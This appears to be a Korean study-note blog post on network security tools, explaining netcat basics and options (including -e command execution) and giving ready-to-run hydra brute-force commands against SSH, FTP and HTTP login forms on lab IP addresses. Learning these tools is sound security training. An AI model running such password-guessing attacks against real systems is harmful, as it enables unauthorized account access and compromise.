 ```yaml
---
title: "네트워크 보안 이론 7"
date: 2024-10-12
categories: [정보보안, 네트워크 보안]
tags: [IT, Security, Network]
---
```


## netcat

- `netcat`은 네트워크 디버깅 및 조사에 널리 사용되는 유틸리티로, TCP 및 UDP 프로토콜을 이용하여 원격 장치와의 데이터 전송이 가능
- 주로 네트워크 연결 확인, 포트 스캔, 간단한 서버 또는 클라이언트 기능으로 사용됨

### - **기본 사용법**:

- 서버: `nc -l -p <포트>`
- 클라이언트: `nc <IP 주소> <포트>`

### - **유용한 옵션**:

- `-z`: 포트 스캔을 위한 "zero-I/O" 모드로, 연결 확인만 수행
- `-v`: 상세 출력 모드
- `-w`: 대기 시간을 지정하여 특정 시간 이후 연결 종료
- `-u`: UDP 모드로 전환
- `-e`: 명령어 실행 (보안상의 이유로 일부 시스템에서는 제한)

---

## hydra

- `hydra`는 다양한 네트워크 서비스에 대한 무작위 대입(Brute Force) 공격을 통해 계정 정보를 추출할 수 있는 도구
- 여러 프로토콜을 지원하며, 주로 패스워드 크래킹에 사용됩니다.

### - Hydra 사용 예시

#### - **SSH 서버 무작위 대입 공격**

```bash
hydra -l root -x 4:8:abcdefghij 10.10.10.4 ssh
```

- `-l`: 사용자 이름 지정 (여기서는 root)
- `-x 4:8`: 길이 4~8의 비밀번호를 소문자로 조합하여 무작위 생성
- `ssh`: 공격 대상 서비스 지정

#### - **FTP 사전 공격**

```bash
hydra -l admin -P password_list.txt ftp://10.10.10.4
```

- `-l admin`: 사용자 이름 지정
- `-P password_list.txt`: 비밀번호 리스트 지정
- `ftp://10.10.10.4`: FTP 서버의 IP 주소 지정

#### - **HTTP GET 요청을 통한 무작위 대입** (비효율적)

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.100 http-get-form "/login.php:username=^USER^&password=^PASS^:Login failed"
```

- `http-get-form`: GET 요청을 사용하여 웹 로그인 페이지 공격
- `^USER^` 및 `^PASS^`: 사용자 및 비밀번호 자리에 사용할 값

#### - **HTTP POST 요청을 통한 무작위 대입** (비효율적)

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials"
```

- `http-post-form`: POST 요청을 사용하여 웹 로그인 페이지 공격

#### - **SSH 다중 대상 공격**

```bash
hydra -L user_list.txt -P password_list.txt -M target_list.txt ssh
```

- `-L user_list.txt`: 사용자 이름 목록 파일
- `-P password_list.txt`: 비밀번호 목록 파일
- `-M target_list.txt`: 대상 서버 목록

### - Hydra 주요 옵션

- `-l LOGIN` 또는 `-L FILE`: 사용자 이름 또는 사용자 이름 목록 지정
- `-p PASS` 또는 `-P FILE`: 비밀번호 또는 비밀번호 목록 지정
- `-C FILE`: 사용자 이름과 비밀번호 조합 목록 파일
- `-t TASKS`: 동시에 실행할 작업 수 (기본: 16)
- `-w TIME`: 각 연결 시도 사이의 대기 시간 (초 단위)
- `-v` / `-V` / `-d`: 자세한 정보 / 각 시도 결과 표시 / 디버그 모드
- `-s PORT`: 포트 번호 지정
- `-M FILE`: 대상 서버 목록 파일 지정
- `service://server[:PORT][/OPT]`: 서비스 및 서버 주소 (예: `ftp://192.168.0.1`)

